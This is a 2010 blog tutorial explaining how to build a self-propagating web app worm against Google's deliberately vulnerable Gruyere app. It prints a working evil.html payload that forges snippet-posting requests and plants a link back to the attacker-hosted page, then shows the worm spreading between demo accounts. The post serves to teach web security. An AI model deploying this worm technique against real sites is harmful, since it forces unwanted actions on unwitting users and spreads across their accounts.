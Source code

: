 ```yaml
---
title: "How to write a web app worm"
date: "2010-11-06"
layout: post
---
```


[![](images/worm.png "worm")](http://travisaltman.com/wp-content/worm.png)When I say web app worm I mean a web site specific worm such as twitter. Twitter [has been picked](http://www.metro.co.uk/tech/842197-wtf-worm-sees-twitter-swamped-by-goat-sex) on (they should be because it's a meaningless app) when it comes to [web app worms](http://www.guardian.co.uk/technology/pda/2010/sep/22/twitter-onmouseover-worm) so why stop now. There are other types of worms that could include web servers and databases but that won't be addressed in this write up. The web app I'll pick on for this example is [Gruyere](http://google-gruyere.appspot.com/). Gruyere is an intentional vulnerable application that a handful of folks over at google wrote to point out some of the major vulnerabilities within web applications. Gruyere is very twitter like so my example would be relevant to other applications that function in similar ways.


Most web site worms spread because they allow javascript to be inserted somewhere into the web application. For example in twitter when a status is updated (via a moronic "tweet") you are allowed to insert words, sentences, and even links to other interesting sites. If twitter allows you to input all this information what do they block? Javascript is a well known programming language that you should never allow to be inserted into your web application. Even though many web developers know this they continually make mistakes and allow javascript to be inserted into their web apps. There are different categories of javascript attacks such as [XSS](http://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29) and [XSRF](http://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29), I'm not a big fan of this naming convention but  you should be familiar with the terms and what they mean. Most all web app worms are spread via the XSRF attack. Basically a XSRF attack is where javascript (possibly other languages) is inserted into the web app, that javascript will then make a request on behalf of the user. This request could be malicious in nature or in case of the twitter worm examples just for fun. The example I'll be going over will be a classic XSRF attack where I'll insert javascript to make requests on behalf of the user.

Let's get started. I went ahead and created several accounts within Gruyere to demo the attack, in this case Travis will be the attacker.

[![](images/Selection_082.png "Selection_082")](http://travisaltman.com/wp-content/Selection_082.png)

To create a web app worm first you'll need to discover a vulnerability within a web app that allows you to insert javascript. Luckily the "New Snippet" functionality will allow us to insert javascript. Now to find vulnerable input that allows you to insert javascript may not be that easy. In order to successfully insert javascript you'll need to be able to insert certain characters such as "<" and ">". One great tool to find these characters which will in turn find vulnearbilities is [Firefox addon named "XSS Me"](https://addons.mozilla.org/en-US/firefox/addon/7598/). XSS Me will tell if an input will allow certain characters. So now that we have vulnerable input how do we get this worm started? As the attacker I will place the following link into a new snippet.

![](/assets/Selection_083.png "Selection_083")

Now all I'm doing here is creating a link to my evil code, to create a worm you don't have to keep your evil code in another location you could insert all the evil code you need into the vulnerable web app itself. Most of the time inserting all of your evil code into the app itself would be ideal but it really depends on what the vulnerable app will allow you to do. Now that we've inserted a link to our evil code what exactly does our evil code look like, below is the source code in evil.html.

```html
<p <body onload="Wait();"><img src="http://google-gruyere.appspot.com/251625447516/newsnippet2?snippet=%3Ca%20href%3D%22http%3A%2F%2Ftravisaltman.com%2Fevil.html%22%3Ekitten%20videos%3C%2Fa%3E">
<script>
function Redirect()
{
window.location="http://google-gruyere.appspot.com/251625447516/";
}
function Wait()
{
setTimeout("Redirect()", 1000);
}
</script>
```

Now let's break evil.html down line by line. All the magic is happening in line one. The first thing that is written is the html paragraph tag "<p", this is done specifically for this app because anything after the <p> tag would allow other characters. Next is the html body tag with an "onload" action. An action in malicious code is common so that the attacker perform other steps, another common action event is an onmouseover event. Once the page loads it will call the "Wait" function, we'll come back to that in just a bit. After the wait is the image tag (<img>) to make the XSRF request for me. The request is to add a new snippet to whomever clicks on the link. In this case if a victim were to click on my link it would create a new snippet for them with a link saying "kitten videos". To add a new snippet within Gruyere the url would be the following

```html
http://google-gruyere.appspot.com/251625447516/newsnippet2?snippet=
```

Anything after the equal sign would show up as a new snippet so I inserted the following "malicious" snippet

```html
%3Ca%20href%3D%22http%3A%2F%2Ftravisaltman.com%2Fevil.html%22%3Ekitten%20videos%3C%2Fa%3E
```

So what does all that mess mean? If you take all that mess and url decode it's the following.

```html
<a href="http://travisaltman.com/evil.html">kitten videos</a>
```

In this case I had to [url encode](http://meyerweb.com/eric/tools/dencoder/) my attack so that it would work, this is not uncommon when performing these types of attacks. So as the attacker I'm placing a link inside a new snippet for the victim that says "kitten videos" but that link is still pointing to my evil.html. Now let's get back to the wait function. I won't break it down line by line but what happens is when the page fully loads the code will jump to the wait function on line seven. After that setTimeout will execute after one second which calls the Redirect function, the Redirect function will redirect the user to the home page of Gruyere. The whole point of everything after line one is to simply redirect the user back to the homepage after the attack. So now that we have planted the seed of attack let's see what happens when Alice clicks on our evil link.

![](/assets/Selection_084.png "Selection_084")

Just by clicking on our "evil" link Alice created a snippet that she herself didn't write, it was our malicious javascript that created the link. Now let's login as Bob and click on the "kitten videos" in Alice's snippets.

![](/assets/Selection_086.png "Selection_086")

Bob has now updated his snippets just by simply clicking on the link in Alice's snippet. You can now see how this can snowball much like other web app worms have spread as well. So in only a few lines of code I have created a worm that will replicate throughout the application infecting whomever clicks on my malicious link. The twitter worm was [very simple](http://www.wait-till-i.com/2010/09/26/new-twitter-exploit-how-it-works/) as well. I could have just as easily made it that if a user were to simply view my snippet that they would get infected as well. Once you allow javascript to be inserted into your app that are a number of things an attacker can do to manipulate your application.

Hopefully this small write up at least some what explains how web app worms get created and how simple they can be. Developers of major applications such as twitter need to better test and review code they have written. As one of my links points out a seventeen year old kid exploited the mighty twitter, just goes to show you how well major applications are focusing on their security. As a user I would never click on a link that you don't trust and turn off javascript for web apps that don't need javascript in the first place. If another worm pops up in twitter or facebook I won't be sad.
